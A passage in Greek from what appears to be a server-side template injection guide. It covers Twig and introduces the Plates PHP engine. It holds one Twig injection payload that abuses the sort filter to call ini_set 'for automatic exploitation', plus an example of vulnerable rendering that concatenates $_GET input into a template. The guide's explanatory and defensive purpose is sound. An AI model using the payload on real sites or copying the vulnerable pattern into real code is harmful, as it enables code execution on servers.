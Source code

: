```python

#Hide warnings and errors for automatic exploitation
{{["error_reporting", "0"]|sort("ini_set")}}
```
**Twig - Μορφή προτύπου**
```php
$output = $twig > render (
'Dear' . $_GET['custom_greeting'],
array("first_name" => $user.first_name)
);

$output = $twig > render (
"Dear {first_name}",
array("first_name" => $user.first_name)
);
```
**Περισσότερες πληροφορίες**

* Στην ενότητα Twig και Twig (Sandboxed) του [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#twig](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#twig)

### Plates (PHP)

Το Plates είναι μια μηχανή templating εγγενής στο PHP, αντλώντας έμπνευση από το Twig. Ωστόσο, σε αντίθεση με το Twig, το οποίο εισάγει μια νέα σύνταξη, το Plates αξιοποιεί τον εγγενή κώδικα PHP στα templates, καθιστώντας το διαισθητικό για τους προγραμματιστές PHP.

Controller:
```php
// Create new Plates instance
$templates = new League\Plates\Engine('/path/to/templates');

// Render a template
echo $templates->render('profile', ['name' => 'Jonathan']);
```
Σελίδα πρότυπο:
```php
<?php $this->layout('template', ['title' => 'User Profile']) ?>

<h1>User Profile</h1>
<p>Hello, <?=$this->e($name)?></p>
```
Διάταξη προτύπου:
```html
<html>
<head>
<title><?=$this->e($title)?></title>
</head>
<body>
<?=$this->section('content')?>
</body>
</html>
```
**Περισσότερες πληροφορίες**
